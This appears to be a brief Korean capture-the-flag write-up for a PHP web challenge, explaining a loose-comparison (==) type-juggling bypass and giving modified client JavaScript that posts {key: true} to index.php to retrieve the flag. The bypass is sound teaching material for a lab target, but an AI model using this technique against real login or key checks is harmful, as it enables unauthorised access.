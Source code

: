 # Solution..!
- php ==의 느슨한 비교 취약점을 이용해야함
- ==로 비교하는 인자에서 true값을 준다면 이는 참으로 판단을 함
- proxy에서 가로채질 못하니 스크립트를 변조해서 사용
```javascript
function submit(key){
	$.ajax({
		type : "POST",
		async : false,
		url : "./index.php",
		data : {json:JSON.stringify({key: true})},
		dataType : 'json'
	}).done(function(result){
		if (result['code'] == true) {
			document.write("Congratulations! flag is " + result['flag']);
		} else {
			alert("nope...");
		}
		lock = false;
	});
}
```